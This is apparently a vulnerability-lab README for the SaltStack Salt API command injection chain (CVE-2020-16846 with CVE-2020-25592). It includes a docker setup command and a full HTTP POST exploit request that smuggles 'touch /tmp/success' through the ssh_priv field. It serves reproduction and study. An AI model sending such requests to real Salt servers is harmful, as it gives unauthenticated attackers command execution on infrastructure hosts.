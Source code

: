 # SaltStack Command Injection (CVE-2020-16846)

[中文版本(Chinese version)](README.zh-cn.md)

Salt is a new approach to infrastructure management built on a dynamic communication bus. Salt can be used for data-driven orchestration, remote execution for any infrastructure, configuration management for any app stack, and much more.

In November 2020, SaltStack officially disclosed two vulnerabilities, CVE-2020-16846 and CVE-2020-25592. CVE-2020-25592 allows arbitrary user to use the SSH module, and CVE-2020-16846 allows users to execute arbitrary commands. Chain these two vulnerabilities will allow unauthorized attackers to execute arbitrary commands through the Salt API.

References:

- https://mp.weixin.qq.com/s/R8qw_lWizGyeJS0jOcYXag
- https://docs.saltstack.com/en/latest/ref/netapi/all/salt.netapi.rest_cherrypy.html

## Vulnerable Environment

Execute the following command to start a SaltStack-Master service:

```
docker compose up -d
```

After the SaltStack-Master is started, the following ports will be listened:

- 4505/4506: SaltStack-Master server, which is a bridge between master and minions
- 8000: Salt's API server, **SSL requiring**
- 2222: SSH server inside the container

## Exploit

Send the following request to `https://your-ip:8000/run`:

```
POST /run HTTP/1.1
Host: 127.0.0.1:8000
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/x-yaml
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 87

token=12312&client=ssh&tgt=*&fun=a&roster=whip1ash&ssh_priv=aaa|touch%20/tmp/success%3b
```

Inject the command `touch /tmp/success` through the `ssh_priv` parameter:

![](1.png)
